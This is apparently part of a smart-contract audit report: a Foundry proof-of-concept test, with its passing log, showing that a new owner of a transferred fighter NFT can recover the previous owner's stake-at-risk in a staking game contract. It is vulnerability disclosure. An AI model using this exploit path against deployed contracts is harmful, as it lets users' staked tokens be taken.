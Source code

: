    function testNewOwnerTakeStakeAtRiskFromPrevious() public {
        address oldPlayer = vm.addr(3);
        address newPlayer = vm.addr(4);

        _mintFromMergingPool(oldPlayer);
        _mintFromMergingPool(newPlayer);

        vm.prank(_treasuryAddress);
        _neuronContract.transfer(oldPlayer, 4000000 * 10 ** 18);

        _fundUserWith4kNeuronByTreasury(newPlayer);

        vm.prank(oldPlayer);
        _rankedBattleContract.stakeNRN(4000000 * 10 ** 18, 0);
        vm.prank(newPlayer);
        _rankedBattleContract.stakeNRN(4000 * 10 ** 18, 1);

        emit log_named_uint("NRN in _rankedBattleContract" , _neuronContract.balanceOf(address(_rankedBattleContract)) / 1 ether);


        // assertEq(_rankedBattleContract.amountStaked(0), 3_000 * 10 ** 18);
        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(0, 50, 2, 1500, true); // lose 1 game for oldowner

        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(1, 50, 2, 1500, true); // lose 1 game for newOwner

        emit log_named_uint("oldPlayer staked NRN in _rankedBattleContract" , _rankedBattleContract.amountStaked(0) / 1 ether);
        emit log_named_uint("NRN in _rankedBattleContract" , _neuronContract.balanceOf(address(_rankedBattleContract)) / 1 ether);

        vm.startPrank(oldPlayer);
        _rankedBattleContract.unstakeNRN(_rankedBattleContract.amountStaked(0),0);
        emit log_named_string("after unstaking, token0's lock status", _fighterFarmContract.fighterStaked(0)?"locked":"unlocked");

        _fighterFarmContract.transferFrom(oldPlayer,newPlayer,0);
        vm.stopPrank();

        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(0, 50, 2, 1500, true); // lose 1 game
        emit log_string("new player can lose in game");
        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(0, 50, 1, 1500, true); // tie 1 game
        emit log_string("new player can tie in game");        
        vm.prank(address(_GAME_SERVER_ADDRESS));
        // vm.expectRevert();
        _rankedBattleContract.updateBattleRecord(0, 50, 0, 1500, true); // win 1 game
        emit log_string("new player can win in game");
        emit log_named_uint("after win, stake amount of new player in nft 0 is added to", _rankedBattleContract.amountStaked(0) / 1 ether);
    }
```
The result log is shown below:

```
[PASS] testNewOwnerTakeStakeAtRiskFromPrevious() (gas: 1618024)
Logs:
  NRN in _rankedBattleContract: 4004000
  oldPlayer staked NRN in _rankedBattleContract: 3996000
  NRN in _rankedBattleContract: 3999996
  after unstaking, token0's lock status: unlocked
  new player can lose in game
  new player can tie in game
  new player can win in game
  after win, stake amount of new player in nft 0 is added to: 4
```
This impact will last for the whole round, approximately 2 weeks.
```